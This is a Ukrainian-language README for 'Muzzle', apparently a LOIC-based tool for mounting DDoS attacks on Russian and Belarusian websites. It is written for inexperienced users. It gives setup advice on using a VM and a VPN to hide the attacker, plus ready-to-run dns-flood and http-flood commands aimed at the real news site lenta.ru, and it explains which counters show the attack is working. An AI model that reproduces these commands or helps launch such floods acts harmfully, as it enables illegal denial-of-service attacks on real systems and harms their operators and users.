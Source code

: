 # Чому?

Сучасні інструменти для створення тиску на сайти мають деяки або усі проблеми, особливо для недосвідчених користувачей:

1. Декілька компонент які мають буті встановлені та налаштовані (python etc.)
2. Багато спеціалізованих параметрів котрі не є зрозумілими для новачків.
3. Одна ip адреса тиску при тому що сучасні системи мають декілька веб- та днс серверів.

# Рішення
Muzzle - простий у використанні інструмент на основі ЛОІСу, котрий виявляє всі DNS та Web сервери пов'язані з певним доменом та створює їм стресові умови.
Програма дозволяє тиск тільки на .ru та .by домени. Ми допомагаемо браттям, але тікому іншому.

#Встановлення та налаштування

1. Любі інструменти такого роду мають встановлюватись на віртуальну машину для безпеки.
2. Користуйтесь VPN. Наприклад https://clearvpn.com пропонує безкоштовний аккаунт на рік при використанні промо коду SAVEUKRAINE.
3. Обирайте ціль та запускайте прогу.

# Приклади команд
muzzle sniff -d lenta.ru
> Виявити та роздрукувати DNS та Web сервери пов'язані з доменом lenta.ru.

muzzle dns-flood -d lenta.ru
muzzle dns-flood -d lenta.ru -t 25
> Тиск на всі DNS сервери що належать lenta.ru по UDP порту 53. 
> Кількість одночасних з'єднань до кожного сервера (потоків) - параметр -t, за змовчуванням - 40.
> Зростання показника Requested - це добре.

muzzle http-flood -d lenta.ru

muzzle http-flood -d lenta.ru -t 35
> Тиск на всі Web сервери що належать lenta.ru по TCP порту 80 (HTTP).  
> Кількість одночасних з'єднань до кожного сервера (потоків) - параметр -t, за змовчуванням - 40.
> Зростання показника Downloaded або принаймні Requested - це добре.

muzzle help 
> Перелік команд.

muzzle version
> Роздрук версії програми.

Повідомлення про нові версії: https://t.me/getmuzzle

Питання та пропозиції: https://t.me/+guqhldDxOMw4YWUx

